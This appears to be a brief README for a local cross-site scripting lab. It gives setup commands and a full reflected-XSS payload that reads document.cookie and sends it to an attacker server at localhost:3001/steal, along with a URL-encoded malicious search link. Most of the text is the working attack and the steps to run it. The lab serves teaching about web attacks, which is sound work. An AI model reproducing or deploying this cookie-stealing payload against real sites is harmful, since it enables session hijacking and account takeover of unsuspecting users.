 First of all, try to install node_modules: npm install
Then run attacker and server: node attacker.js, node server.js
Paste payload in server input field: 
<script>
  const cookies = encodeURIComponent(document.cookie);
  new Image().src = `http://localhost:3001/steal?cookie=${cookies}`;
</script>

 You will see link to website like:
 http://localhost:3000/search?query=%3Cscript%3Enew%20Image().src%3D%22http%3A%2F%2Flocalhost%3A3001%2Fsteal%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
 Open true link at incognito mode to get coockie, then open malicious link in this incognito mode rowser, then go to console of atckker and look at stolen coockies.
